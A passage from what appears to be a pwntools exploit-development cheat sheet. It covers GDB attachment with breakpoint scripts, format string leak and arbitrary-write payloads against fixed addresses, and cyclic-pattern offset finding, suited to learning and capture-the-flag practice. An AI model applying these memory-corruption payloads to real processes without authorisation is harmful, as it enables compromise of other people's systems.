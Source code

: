 ### **6. The Art of Debugging: `gdb.attach()`**

If your exploit doesn't work first time (it won't), you need to see why. Pwntools integrates perfectly with GDB.

```python
# The simplest way: attach GDB to the process
# This will pause the process and open a new GDB window
gdb.attach(p)

# The professional way: pass a script to set breakpoints and run commands
gdb_script = '''
    break *vuln_function+45   # Break at a specific instruction
    break *main
    continue
'''
gdb.attach(p, gdbscript=gdb_script)

# For a clean workflow with tmux (highly recommended)
context.terminal = ['tmux', 'splitw', '-h'] # Split pane horizontally
gdb.attach(p) # GDB opens in the new pane
```

### **7. Memory Leaks and Format String Exploits**

```python
# Leak an address
payload = b'%7$p'  # Leak 7th format string parameter
p.sendline(payload)
leak = p.recvline()
leaked_addr = int(leak, 16)

# Write to memory with format string
# Write 0xdeadbeef to address 0x804a000
fmtstr_payload = fmtstr_payload(5, {0x804a000: 0xdeadbeef})
p.sendline(fmtstr_payload)
```

### **8. Fuzzing and Pattern Generation**

```python
# Generate cyclic pattern
pattern = cyclic(1024)
p.sendline(pattern)

# Find offset in crash
core = p.corefile
offset = cyclic_find(core.eip)  # or core.rip for 64-bit

# Alternative with command line
# $ cyclic 100
# $ cyclic -l 0x6161616c
```
